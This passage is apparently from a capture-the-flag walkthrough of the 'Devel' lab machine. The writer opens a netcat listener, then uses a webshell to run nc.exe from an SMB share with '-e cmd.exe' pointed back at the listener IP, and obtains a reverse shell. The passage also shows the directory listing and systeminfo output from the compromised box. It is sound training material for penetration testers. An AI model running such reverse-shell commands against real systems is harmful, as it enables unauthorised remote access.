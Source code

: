 - My IP address on `tun0` is `10.10.14.17`
- I'll set up a listener on port `1312`:
  ```bash
  $ nc -lvnp 1312
  listening on [any] 1312 ...
  ```

Now we can construct the command to enter into the webshell that will download the `nc.exe` file over SMB, execute it, connecting to our listener on port 1312, and then hooking up the connection to `cmd.exe` providing a shell:

```
\\10.10.14.17\myshare\nc.exe -e cmd.exe 10.10.14.17 1312
```

Back over in our listener tab, we get a connection:

```bash
$ nc -lvnp 1312
listening on [any] 1312 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.5] 49165
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

There we go!

```powershell
c:\windows\system32\inetsrv>cd C:\Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.692.492.288 bytes free

C:\Users>cd babis
Access is denied.
```

We are unable to access the `babis` directory to collect our flag from our current position as a "service account".

```
C:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          19/4/2025, 12:41:04 ��
```